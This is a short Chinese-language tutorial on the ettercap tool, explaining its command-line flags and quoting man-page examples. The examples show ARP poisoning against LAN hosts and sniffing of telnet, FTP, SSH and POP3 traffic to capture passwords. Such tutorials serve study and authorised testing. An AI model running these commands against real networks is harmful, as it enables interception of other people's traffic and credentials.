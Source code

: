 解释一下

```shell
-T text  文本模式，对应的另外一个-G，图形界面模式(不推荐，体验不好，给你两个理由，一个是可能会卡死，第二个，没有命令行酷，哈哈),当然还有一个C，终端里的界面比图形化好不少。
-q 安静模式，不然很多没必要的信息会被输出。可以用空格切换。
-i 指定网卡接口
-M MITM attack 中间人攻击，就是干这个得，选项(arp|icmp|dhcp|port|ndp)等等，常用的就是arp咯
-P 加载插件
-F 加载过滤器自带了一些，可以自己写，这才是杀手锏
///  分割mac, ip, port  要欺骗的ip，不写就是所有的
```

### more-还是文档说的好，自行参考咯

```shell
ettercap -Tp

       Use the console interface and do not put the interface in promisc mode. You will see only your traffic.

ettercap -Tzq

       Use  the  console  interface,  do not ARP scan the net and be quiet. The packet content will not be displayed, but user and passwords, as well as other messages, will be displayed.

ettercap -T -j /tmp/victims -M arp /10.0.0.1-7/ /10.0.0.10-20/

       Will load the hosts list from /tmp/victims and perform an ARP poisoning attack against the two target. The list will be joined with the target and the resulting list  is used for ARP poisoning.

ettercap -T -M arp // //

       Perform the ARP poisoning attack against all the hosts in the LAN. BE CAREFUL !!

ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.2-10/

       Perform  the  ARP  poisoning against the gateway and the host in the lan between 2 and 10. The 'remote' option is needed to be able to sniff the remote traffic the hosts make through the gateway.

ettercap -Tzq //110

       Sniff only the pop3 protocol from every hosts.

ettercap -Tzq /10.0.0.1/21,22,23

       Sniff telnet, ftp and ssh connections to 10.0.0.1.

ettercap -P list

       Prints the list of all available plugins
```
